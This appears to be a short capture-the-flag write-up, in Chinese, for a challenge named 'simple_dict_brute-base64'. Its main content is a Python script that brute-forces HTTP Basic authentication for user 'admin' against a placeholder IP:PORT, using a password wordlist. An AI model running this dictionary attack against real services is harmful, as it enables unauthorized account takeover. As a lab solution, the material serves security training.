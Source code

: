# simple_dict_brute-base64

原地址：[GZCTF-challenges/simple_dict_brute-base64](https://github.com/DeadlyUtopia/GZCTF-challenges/tree/main/simple_dict_brute-base64)

![image-20251028183539749](assets/image-20251028183539749.png)

````python
import time
import requests
import base64

url = 'http://IP:PORT/'

password = []

with open("passwords.txt", "r") as f:  
        while True:
            data = f.readline() 
            if data:
                    password.append(data)
            else:
              break
            

for p in password:
        strs = 'admin:'+ p[:-1]
        header={
                'Authorization':'Basic {}'.format(base64.b64encode(strs.encode('utf-8')).decode('utf-8'))
        }
        rep =requests.get(url,headers=header)
        time.sleep(0.2)
        if rep.status_code ==200:
                print(rep.text)
                print(strs)
                break
````

![image-20251028183626498](assets/image-20251028183626498.png)